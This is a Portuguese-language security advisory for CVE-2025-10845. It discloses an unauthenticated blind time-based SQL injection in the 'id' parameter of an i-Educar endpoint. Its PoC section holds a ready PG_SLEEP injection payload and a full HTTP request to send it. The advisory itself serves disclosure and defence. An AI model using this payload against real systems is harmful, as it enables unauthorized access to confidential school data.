


## CVE-2025-10845: Vulnerabilidade de Injeção SQL (Blind Time-Based) no parâmetro `id` do Endpoint `module/ComponenteCurricular/view`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-10845*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de injeção SQL foi descoberta no parâmetro <code>id</code> do endpoint <code>module/ComponenteCurricular/view</code>. Esse problema permite que qualquer invasor não autenticado injete consultas SQL arbitrárias, potencialmente levando a acesso não autorizado aos dados ou exploração adicional, dependendo da configuração do banco de dados.</p>

## Detalhes

<p style="text-align: justify;">O aplicativo não consegue sanitizar adequadamente a entrada fornecida pelo usuário no parâmetro <code>id</code>. Como resultado, payloads SQL especialmente criados são interpretados diretamente pelo banco de dados de back-end.</p>

## PoC

Endpoint Vulnerável: `module/ComponenteCurricular/view`

Parâmetro: `id`

### Payload:

```terminal
' AND 6606=(SELECT 6606 FROM PG_SLEEP(5)) AND 'QDaZ'='QDaZ
```

#### Exemplo de Requisição

```terminal
GET /module/ComponenteCurricular/view?id=8%27%20AND%206606=(SELECT%206606%20FROM%20PG_SLEEP(5))%20AND%20%27QDaZ%27=%27QDaZ HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=bnTu3HZ4Jk5a0JxRERNMd03ZAr1TUGvXZTDs9DdE
Connection: keep-alive
```

<p style="text-align: justify;">Este payload introduz um atraso de tempo, demonstrando a capacidade de executar consultas SQL arbitrárias.</p>

### Requisição normal:



### Requisição modificada:



<p style="text-align: justify;">Observe o atraso de tempo na resposta do servidor, indicando a execução bem-sucedida do payload SQL.</p>

## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Acesso não autorizado a dados confidenciais (por exemplo, usuários, senhas, registros).</li>
    <li>Enumeração de banco de dados (esquemas, tabelas, usuários, versões).</li>
    <li>Escalonamento para RCE dependendo da configuração do banco de dados (por exemplo, xp_cmdshell, UDFs).</li>
    <li>Comprometimento total do aplicativo se encadeado com outras vulnerabilidades.</li>
    <li>Esse problema afeta todos os usuários e ambientes, pois não requer autenticação e pode ser acessado por meio de um ponto de extremidade público.</li>
  </ul>
</p>

## Referência

***[https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-10845.md](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-10845.md)***

## Encontrado por

[](https://www.linkedin.com/in/karina-gante/) [Karina Gante](https://www.linkedin.com/in/karina-gante/)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***